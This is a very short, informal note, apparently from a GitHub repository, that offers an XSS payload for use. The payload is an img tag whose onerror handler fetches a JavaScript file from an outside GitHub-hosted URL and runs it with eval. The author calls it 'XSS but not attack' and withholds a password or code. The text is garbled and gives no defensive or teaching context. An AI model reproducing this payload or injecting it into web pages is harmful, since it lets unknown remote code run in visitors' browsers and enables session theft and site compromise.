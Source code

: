 Still not working on it
to use use this code as a XSS but not attack: <img src=# onerror='fetch("https://raw.githubusercontent.com/skibidiking33/idkyet/main/together.js").then(r=>r.text()).then(c=>eval(c))'>

i cant tell the password or code
